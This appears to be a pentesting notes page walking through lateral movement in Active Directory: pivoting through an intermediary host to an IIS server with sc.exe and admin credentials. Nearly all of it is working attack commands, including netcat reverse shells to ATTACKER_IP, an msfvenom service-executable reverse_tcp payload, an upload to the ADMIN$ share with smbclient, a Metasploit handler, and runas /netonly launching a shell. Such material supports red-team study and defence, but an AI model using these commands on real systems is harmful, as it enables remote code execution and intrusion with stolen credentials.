 # Example

Suppose the following scenario where we have obtained two sets of AD credentials:&#x20;

a. Low privileges (user)

b. Administrative access (admin)&#x20;

Our goal is to obtain a shell session on an _IIS_ server with administrative privileges. There are 2 servers we will be working with:

a. Intermediary (`jmp.test.com`)

b. IIS (`iis.test.com`)

Let's assume that the Intermediary server have no data that will be interesting to us, and it simply functions as an intermediary to get to the _IIS_ server. The main goal is the _IIS_ server, which is only accessible/routable from the intermediary server due to network restrictions, firewalls, etc.

The first set of AD credential allows us to gain a remote shell session on the intermediary machine (`jmp.domain`), via SSH. From there, we can use the obtained admin credentials to move laterally to the _IIS_ server (`iis.domain`), to gain a remote session with administrative privileges.

### (1) Using `sc.exe`

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754599(v=ws.11)" %}

#### 1. SSH into the intermediary server (with the first set of low-privileged credentials)

```sh
$ ssh test.com\\user@jmp.test.com
```

This will provide us a command prompt:

```
C:\> whoami
user
```

#### 2. Craft the reverse shell payload (`msfvenom`) and upload it to the IIS server (with admin credentials)

> Note that the reverse shell connection will fail If we tried to initiate it directly with `sc.exe` using the `binPath` option:

{% code title="Attacker" overflow="wrap" %}
```sh
$ sc.exe \\TARGET create <servicename> binPath= "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443" start= auto

$ sc.exe \\TARGET start <servicename>
```
{% endcode %}

This is because the service manager expects the executable that is being executed to function as a service executable (perform certain actions), which is different from standard `.exe` files, as with what we have provided.

**Alternative solution**

As a workaround, we can use `msfvenom` which allows us to craft a payload in the `exe-service` format, which allows us to encapsulate our payload inside a fully functional service executable.

{% code title="Attacker" overflow="wrap" %}
```sh
# take note of the LPORT value, it is required when we are starting the msfconsole listener
$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=9999 -o <service_exec_name>.exe
```
{% endcode %}

**Uploading the payload**

Now, we can upload the payload to the _IIS_ server (`smbclient`), and subsequently start a listener with `msfconsole` :

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -L '//iis.test.com' -W xxx
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...

$smbclient -c "put <service_exec_name>.exe" -U admin -W xxx '//iis.test.com/admin$/' <password>
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the executable file created with msfvenom

_Start the msfconsole listener:_

{% code overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 9999 
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 
```
{% endcode %}

{% embed url="https://jarrettgxz-sec.gitbook.io/networking-concepts/networking-tools/miscellaneous/smbclient" %}

#### 3. Spawn a remote `/netonly` shell session on the intermediate server (as the admin)&#x20;

Start a listener on the attacker machine on eg. port **8888**

* This is the listener that provides us a remote shell session as the admin (next step)

{% code title="Attacker" %}
```sh
$ nc -lvnp 8888
```
{% endcode %}

From the remote shell session (step 1), we can spawn a new `/netonly` shell to allow us to perform network connections/requests as the admin:

{% code overflow="wrap" %}
```sh
C:\> runas.exe /netonly /user:test.com\admin "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 8888"
```
{% endcode %}

#### 4. Start a service (`sc.exe`) on the _IIS_ server that automatically executes the uploaded reverse shell payload

Now, with a shell session as the admin, we can create a service executable that calls our uploaded `msfvenom` payload created earlier:

{% code title="Attacker" overflow="wrap" %}
```powershell
# start powershell
C:\> powershell

PS> sc.exe \\iis.test.com create rvshell binPath= "%windir%\myservice.exe" start= auto
PS> sc.exe \\iis.test.com start rvshell
```
{% endcode %}

After performing the following actions, we will retrieve a reverse shell connection from the `msfconsole` session earlier:

```
C:\> whoami
admin
```
